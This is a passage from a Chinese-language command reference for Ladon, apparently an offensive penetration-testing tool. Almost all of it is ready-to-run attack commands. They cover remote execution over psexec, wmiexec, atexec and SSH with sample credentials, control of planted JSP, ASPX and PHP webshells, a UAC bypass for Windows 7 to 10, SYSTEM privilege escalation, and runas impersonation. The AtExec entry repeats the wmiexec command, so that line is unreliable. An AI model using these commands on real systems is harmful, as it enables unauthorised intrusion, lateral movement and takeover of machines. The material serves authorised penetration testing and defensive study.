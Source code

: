 ##### 056 .NET & PowerShell版本 	
Ladon NetVer
Ladon PSver
Ladon NetVersion
Ladon PSversion

##### 057 运行时版本&编译环境 	
Ladon Ver
Ladon Version

### 远程执行(psexec/wmiexec/atexec/sshexec)

##### 445端口 PSEXEC远程执行命令（交互式）

net user \\192.168.1.8 k8gege520 /user:k8gege
Ladon psexec 192.168.1.8
psexec> whoami
nt authority\system

##### 058 135端口 WmiExec远程执行命令 （非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami

##### 059 445端口 AtExec远程执行命令（非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami

##### 060 22端口 SshExec远程执行命令（非交互式）
Ladon SshExec 192.168.1.8 k8gege k8gege520 whoami
Ladon SshExec 192.168.1.8 22 k8gege k8gege520 whoami

##### 061 JspShell远程执行命令（非交互式）
Usage：Ladon JspShell type url pwd cmd
Example: Ladon JspShell ua http://192.168.1.8/shell.jsp Ladon whoami

#### 062 WebShell远程执行命令（非交互式）
```Bash
Usage：Ladon WebShell ScriptType ShellType url pwd cmd
Example: Ladon WebShell jsp ua http://192.168.1.8/shell.jsp Ladon whoami
Example: Ladon WebShell aspx cd http://192.168.1.8/1.aspx Ladon whoami
Example: Ladon WebShell php ua http://192.168.1.8/1.php Ladon whoami
```

### 提权降权

##### 063 BypassUac 绕过UAC执行,支持Win7-Win10 	
Ladon BypassUac c:\1.exe
Ladon BypassUac c:\1.bat

##### 064 GetSystem 提权或降权运行程序 	
Ladon GetSystem cmd.exe
Ladon GetSystem cmd.exe explorer

##### 065 Runas 模拟用户执行命令 	
Ladon Runas user pass cmd
